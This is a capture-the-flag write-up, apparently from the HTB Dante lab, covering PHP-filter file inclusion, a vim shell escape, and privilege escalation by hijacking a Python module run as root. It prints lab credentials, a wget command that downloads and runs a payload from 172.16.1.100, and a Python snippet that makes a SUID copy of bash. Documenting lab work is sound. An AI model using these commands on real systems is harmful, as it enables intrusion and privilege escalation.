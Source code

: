 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
`FoundCREDs`

### Flags
1. `DANTE{LF1_M@K3s_u5_lol}`
2. `DANTE{L0v3_m3_S0m3_H1J4CK1NG_XD}`
## External
### Enumeration
![](https://i.imgur.com/ahZOl27.png)

![](https://i.imgur.com/JrK36iW.png)
- I saw the `?page=` and tried some php filters.
![](https://i.imgur.com/xWeq231.png)
![](https://i.imgur.com/emA0U5m.png)
![](https://i.imgur.com/yrfBDEd.png)
![](https://i.imgur.com/XWhwPjK.png)
```shell
/** MySQL database username */
define( 'DB_USER', 'margaret' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Welcome1!2@3#' );


set shell=/bin/sh|:shell

```
### Gaining Access
![](https://i.imgur.com/48LXk46.png)
- it is limited Shell, then i used vim and escalated my privilege
	- https://gtfobins.github.io/gtfobins/vim/#shell
![](https://i.imgur.com/CjcqSMr.png)
## Internal
### Enumeration
```shell
  _ /snap/slack/65/usr/lib/slack/slack --type=gpu-process --no-sandbox --enable-logging --enable-crashpad --crashpad-handler-pid=2336 --enable-crash-reporter=1d25997c-8956-4d11-a995-8cf1bcc9657a,no_channel --user-data-dir=/home/frank/snap/slack/65/.config/Slack --gpu-preferences=WAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAAAABgAAAAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAABAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --enable-logging --log-file=/home/frank/snap/slack/65/.config/Slack/logs/default/electron_debug.log --shared-files --field-trial-handle=0,i,9378677113187880121,9242461286356514115,131072 --disable-features=AllowAggressiveThrottlingWithWebSocket,CalculateNativeWinOcclusion,HardwareMediaKeyHandling,IntensiveWakeUpThrottling,LogJsConsoleMessages,RequestInitiatorSiteLockEnfocement,SpareRendererForSitePerProcess,WebRtcHideLocalIpsWithMdns,WinRetrieveSuggestionsOnlyOnDemand
frank       2318  0.0  1.2 33971076 48200 ?      S    Jun21   0:02  |   _ /snap/slack/65/usr/lib/slack/slack --type=zygote --no-sandbox --enable-crashpad --enable-crashpad
frank       2918  0.5  2.8 42971916 114452 ?     Sl   Jun21   3:51  |   |   _ /snap/slack/65/usr/lib/slack/slack --type=renderer --enable-crashpad --crashpad-handler-pid=2336 --enable-crash-reporter=1d25997c-8956-4d11-a995-8cf1bcc9657a,no_channel --user-data-dir=/home/frank/snap/slack/65/.config/Slack --standard-schemes=app,slack-webapp-dev --secure-schemes=app,slack-webapp-dev --bypasscsp-schemes=slack-webapp-dev --cors-schemes=slack-webapp-dev --fetch-schemes=slack-webapp-dev --service-worker-schemes=slack-webapp-dev --streaming-schemes --app-path=/snap/slack/65/usr/lib/slack/resources/app.asar --enable-sandbox --enable-blink-features=ExperimentalJSProfiler --disable-blink-features --no-sandbox --autoplay-policy=no-user-gesture-required --enable-logging --force-color-profile=srgb --log-file=/home/frank/snap/slack/65/.config/Slack/logs/default/electron_debug.log --lang=en-US --num-raster-threads=1 --renderer-client-id=6 --launch-time-ticks=342219432 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,9378677113187880121,9242461286356514115,131072 --disable-features=AllowAggressiveThrottlingWithWebSocket,CalculateNativeWinOcclusion,HardwareMediaKeyHandling,IntensiveWakeUpThrottling,LogJsConsoleMessages,RequestInitiatorSiteLockEnfocement,SpareRendererForSitePerProcess,WebRtcHideLocalIpsWithMdns,WinRetrieveSuggestionsOnlyOnDemand --window-type=main
frank       2892  0.1  1.5 34040992 63424 ?      Sl   Jun21   0:52  |   _ /snap/slack/65/usr/lib/slack/slack --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --no-sandbox --enable-logging --enable-crashpad --crashpad-handler-pid=2336 --enable-crash-reporter=1d25997c-8956-4d11-a995-8cf1bcc9657a,no_channel --user-data-dir=/home/frank/snap/slack/65/.config/Slack --standard-schemes=app,slack-webapp-dev --secure-schemes=app,slack-webapp-dev --bypasscsp-schemes=slack-webapp-dev --cors-schemes=slack-webapp-dev --fetch-schemes=slack-webapp-dev --service-worker-schemes=slack-webapp-dev --streaming-schemes --enable-logging --log-file=/home/frank/snap/slack/65/.config/Slack/logs/default/electron_debug.log --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,9378677113187880121,9242461286356514115,131072 --disable-features=AllowAggressiveThrottlingWithWebSocket,CalculateNativeWinOcclusion,HardwareMediaKeyHandling,IntensiveWakeUpThrottling,LogJsConsoleMessages,RequestInitiatorSiteLockEnfocement,SpareRendererForSitePerProcess,WebRtcHideLocalIpsWithMdns,WinRetrieveSuggestionsOnlyOnDemand --enable-crashpad
frank       2336  0.0  0.0 33588528 3088 ?       Sl   Jun21   0:00  _ /snap/slack/65/usr/lib/slack/chrome_crashpad_handler --monitor-self-annotation=ptype=crashpad-handler --no-rate-limit --no-upload-gzip --database=/home/frank/snap/slack/65/.config/Slack/Crashpad --url=https://slack.com/apps/sentryproxy/api/5277886/minidump/?sentry_key=fd30fe469dbf4aec9db40548e5acf91e --annotation=_productName=Slack --annotation=_version=4.28.171 --annotation=lsb-release=Unknown --annotation=plat=Linux --annotation=prod=Electron --annotation=sentry___initialScope={"release":"Slack@4.28.171","environment":"production","user":{"id":"9267d010-0c00-5b43-b08b-288e1d53945f"},"tags":{"uuid":"9267d010-0c00-5b43-b08b-288e1d53945f"}} --annotation=ver=20.0.3 --initial-client-fd=42 --shared-client-connection


/home/margaret/.lhistory

/home/frank
/opt/omi/

╔══════════╣ Unexpected in root
/html
/1
/samba
 /bin/sh -c python3 /home/frank/apache_restart.py; sleep 1; rm /home/frank/call.py; sleep 1; rm /home/frank/urllib.py
/snap/slack/65/usr/lib/slack/resources/app.asar
```
![](https://i.imgur.com/WlHyeqm.png)
```
"Hi Margaret, I created the channel so we can discuss the network security - in private!"
"Great idea, Frank"
"We need to migrate the Slack workspace to the new Ubuntu images, can you do this today?"
"Sure, but I need my password for the Ubuntu images, I haven't been given it yet"
"Ahh sorry about that - its STARS5678FORTUNE401"
"Thanks very much, I'll get on that now."
"No problem at all. I'll make this channel private from now on - we cant risk another breach"
"Please get rid of my admin privs on the Ubuntu box and go ahead and make yourself an admin account"
"Thanks, will do"
"I also set you a new password on the Ubuntu box - 69F15HST1CX, same username"


thisissecretright
htb_donotuse
```
![](https://i.imgur.com/OXRbNyv.png)
![](https://i.imgur.com/r7Cmumx.png)
```
wget -qO SRpFzXCv --no-check-certificate http://172.16.1.100:4400/T44t8epgG; chmod +x SRpFzXCv; ./SRpFzXCv& disown
```
![](https://i.imgur.com/gy4IEad.png)
- ` frank : TractorHeadtorchDeskmat`
### Gaining Access
![](https://i.imgur.com/Xdvol4i.png)

![](https://i.imgur.com/ARhtaNl.png)
### Maintaining Access
![](https://i.imgur.com/09jPEQ8.png)
-  The Root is Running the Apache_restart.py.
![](https://i.imgur.com/cyLNoK4.png)
![](https://i.imgur.com/MMj92lx.png)

This File uses call and urllib from the frank.
```python
import os
os.system("cp /bin/bash /home/frank/bash; chmod u+s /home/frank/bash")
```
![](https://i.imgur.com/zdUla8q.png)


# Random Notes